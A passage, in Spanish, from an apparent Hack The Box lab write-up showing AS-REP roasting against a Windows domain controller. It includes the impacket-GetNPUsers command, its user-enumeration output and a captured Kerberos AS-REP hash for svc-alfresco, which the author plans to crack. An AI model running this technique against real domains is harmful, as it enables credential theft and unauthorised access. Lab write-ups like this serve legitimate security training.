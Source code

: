 ```bash
```

### Explotacíon Kerberos

Tenemos la lista de usuarios adaptada para la herramienta. Ahora podemos ejecutar el ataque de la siguiente forma.

```bash
❯ impacket-GetNPUsers htb.local/ -usersfile users.txt -dc-ip 10.10.10.161 -request
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:05dd81de1919a2145271f1d6eeed3c0a$7bf34c7c8421a2421cd2c74c61ca49f421549a3e44fc6ff21f5a78305243d8cb1d8ec57d106ca3248bb23f75963cc112dd1e36c29ace1a3e22316ddf5c4f2c6e003b0adc33ec30e843f4e2dfc0ff40907c151a61717a1f615a4a3ae3808af886cf4c807ad636d28aa92220ad7a30973c1ac77f53d9e581a276c5c1ad69fe6011b34738d48ad3ec793977e39587e3ea1ca49ab2408ec40ee6381e5c2928d88d76b5854c6498ab33ce956e096c0815615b9a2f39a17f8071803ad0eb1d81ea371587dee5bcca453eaec05b4c8c061e857b0df1a814a066f38d95089966eeac909800fff30da945
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User abc doesn't have UF_DONT_REQUIRE_PREAUTH set
```

El usuario svc-alfresco no requiere de autenticación y hemos podido extraer el AS_REP. Vamos a probar romperlo con hashcat o john.
